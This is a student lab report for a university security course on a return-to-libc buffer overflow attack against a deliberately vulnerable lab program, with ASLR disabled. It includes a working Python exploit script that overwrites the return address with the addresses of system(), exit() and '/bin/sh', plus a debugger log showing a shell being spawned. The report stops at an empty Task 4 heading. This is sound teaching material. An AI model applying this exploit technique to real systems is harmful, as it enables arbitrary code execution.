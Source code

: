 # HMWK4 Return-To-LibC Lab Report

By Robert D. Hernandez (rherna70@uic.edu)

## Env Setup 

```sh
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ sudo sysctl -w kernel.randomize_va_space=0
[sudo] password for rherna70: 
kernel.randomize_va_space = 0
```

```sh
sudo ln -sf /bin/zsh /bin/sh
 ```

## Task 1: Finding out the Addresses of libc Functions

I used `cyclic 100` to populate a version of `badfile` to first find the correct offset for the size of the vulnerable buffer.  This revealed 'haaa' which I then used `cyclic -l haaa` to find the value 28.  From there I populated the python exploit construction code with the correct addresses for `/bin/sh` as well as `exit` from from using pwndbg.  While I had the option of using the env var, I decided instead to use the `/bin/sh` string in libc.so so the attack is more portable.

Task 2: Putting the shell string in the memory

For completeness sake, I did these steps even though I chose to use the `/bin/sh` string from `libc.so` just to observe the memory address not changing, and to get experience compiling a 32-bit program on a 62 bit machine.

```sh
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ export MYSHELL=/bin/sh
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ env | grep MYSHELL    
MYSHELL=/bin/sh
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ cat prntenv.c 
#include <stdio.h>
#include <stdlib.h>

void main() {
        char* shell = getenv("MYSHELL");
        if (shell) {
                printf("%x\n", (unsigned int)shell);
        }
}

➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ gcc -m32 -o prntenv prntenv.c
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ ./prntenv 
ffffdfe6
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ ./prntenv
ffffdfe6
```

## Task 3: Launching the Attack

After finding the correct memory addresses to use in the attack, I used the following content for `exploit.py`

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 36
# X = 84
sh_addr = 0xf7f3e0d5       # The address of "/bin/sh" in libc.so
# sh_addr = 0xffffefe6       # The address of "/bin/sh" in the ENV 
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

# Y = 76
Y = 28
system_addr = 0xf7dc9170 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32 
# Z = 80
exit_addr = 0xf7dbb460     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

I was able to launch the attack and get the c program to drop me into a shell, here is the log of the attack for completeness sake:

```
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ cat badfile 
����������������������������p���`���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������%                                                           
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ ls
Makefile  Taskfile.yml  badfile  exploit.py  lab_report.md  prntenv  prntenv.c  retlib  retlib.c
➜  hw4 git:(hw4/code_reuse_attack_ret2libc) ✗ gdb ./retlib 
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Poetry could not find a pyproject.toml file in /home/rherna70/code/CS487/hw4 or its parents
pwndbg: loaded 169 pwndbg commands and 48 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $base, $bn_sym, $bn_var, $bn_eval, $ida GDB functions (can be used with print/break)
Reading symbols from ./retlib...
(No debugging symbols found in ./retlib)
------- tip of the day (disable with set show-tips off) -------
GDB and Pwndbg parameters can be shown or set with show <param> and set <param> <value> GDB commands
pwndbg> r
Starting program: /home/rherna70/code/CS487/hw4/retlib 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Address of input[] inside main():  0xffffcc60
Input size: 300
Address of buffer[] inside bof():  0xffffcc30
Frame Pointer value inside bof():  0xffffcc48
[Attaching after Thread 0xf7fbf500 (LWP 57641) vfork to child process 57644]
[New inferior 2 (process 57644)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 57641 after child exec]
[Inferior 1 (process 57641) detached]
process 57644 is executing new program: /usr/bin/zsh
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
process 57644 is executing new program: /usr/bin/zsh
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$ 

```


## Task 4: Defeat Shell's Countermeasures

